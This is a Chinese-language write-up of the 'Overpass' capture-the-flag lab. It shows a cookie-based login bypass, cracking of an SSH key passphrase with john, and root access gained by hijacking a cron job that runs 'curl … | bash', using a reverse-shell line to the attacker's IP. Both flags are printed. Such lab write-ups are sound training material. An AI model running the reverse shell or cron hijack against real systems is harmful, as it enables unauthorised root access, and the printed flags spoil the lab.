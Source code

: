 # Overpass

循例，nmap扫一波

开了22和80

gobuster扫一波web，扫到/admin

查看一下源代码，发现了login.js和cookie.js

在文件里面找到了

    const statusOrCookie = await response.text()

    if (statusOrCookie === "Incorrect credentials") {

        loginStatus.textContent = "Incorrect Credentials"

        passwordBox.value=""

    } else {

        Cookies.set("SessionToken",statusOrCookie)

        window.location = "/admin"

    }

这段代码很简单，只要我们携带了SessionToken，不管这个值是什么，都可以

携带之后，再次访问：

    <div class="bodyFlexContainer content">

        <div>

            <p>Since you keep forgetting your password, James, I've set up SSH keys for you.</p>

            <p>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.<br>

                Also, we really need to talk about this "Military Grade" encryption. - Paradox

    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,
    .....

得到了一个ssh密钥和用户名james

使用ssh2john为密钥生成hash

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh2john</font> <u style="text-decoration-style:single">./test1.txt</u> <font color="#277FFF"><b>&gt;</b></font> <u style="text-decoration-style:single">./hash</u></pre>

john爆破

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">john</font> <font color="#9755B3">--wordlist=/usr/share/wordlists/rockyou.txt</font> <u style="text-decoration-style:single">./hash</u>                 1 <font color="#EC0101"><b>⨯</b></font>
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press &apos;q&apos; or Ctrl-C to abort, almost any other key for status
<font color="#FEA44C">james13</font>          (<font color="#FEA44C">./test1.txt</font>)     
</pre>

修改密钥文件的权限为600并登录ssh

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">chmod</font> 600 <u style="text-decoration-style:single">./test1.txt</u>                                                                                              
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh</font> james@10.10.251.61 <font color="#9755B3">-i</font> <u style="text-decoration-style:single">./test1.txt</u>
Enter passphrase for key &apos;./test1.txt&apos;: 
</pre>


<pre><font color="#47D4B9"><b>james@overpass-prod</b></font>:<font color="#277FFF"><b>~</b></font>$ cat ./user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}</pre>

cat /etc/crontab有一条root的任务：

    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    # Update builds from latest code
    * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

我们可以修改/etc/hosts将ip改为我们攻击机的ip并开启服务

攻击机：

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">mkdir</font> ./downloads/                                                      1 <font color="#EC0101"><b>⨯</b></font>
                                                                                
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">mkdir</font> ./downloads/src 
                                                                                
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">touch</font> ./downloads/src/buildscript.sh</pre>

buildscript.sh内容：

    #!/bin/bash
    bash -i >& /dev/tcp/10.11.17.14/8888 0>&1

python3 -m http.server 80

静等一分钟：

    Ncat: Connection from 10.10.251.61.
    Ncat: Connection from 10.10.251.61:53498.
    bash: cannot set terminal process group (2654): Inappropriate ioctl for device
    bash: no job control in this shell
    root@overpass-prod:~# 
    root@overpass-prod:~# cat /root/root.txt
    cat /root/root.txt
    thm{7f336f8c359dbac18d54fdd64ea753bb}


另外我发现ubuntu版本是18.04，并且gcc正常，有可能存在CVE-2021-3493
